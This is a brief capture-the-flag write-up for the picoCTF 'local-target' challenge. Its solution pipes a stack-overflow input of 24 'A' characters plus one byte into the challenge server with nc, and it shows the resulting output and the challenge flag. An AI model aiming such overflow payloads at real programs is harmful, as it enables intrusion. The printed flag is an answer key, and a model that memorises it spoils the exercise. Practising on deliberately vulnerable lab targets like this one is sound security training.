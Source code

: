 # Objetivo

Smash the stack Can you overflow the buffer and modify the other local variable? The program is available [here](https://artifacts.picoctf.net/c/517/local-target). You can view source [here](https://artifacts.picoctf.net/c/517/local-target.c). And connect with it using: `nc saturn.picoctf.net 53035`

# Solucion

```Shell
┌──(kali㉿kali)-[~/Downloads]
└─$ python -c "print('A'*24 + '\x41')" | nc saturn.picoctf.net 53035
Enter a string: 
num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_fee8ef05}

```

# Notas adicionales

# Referencias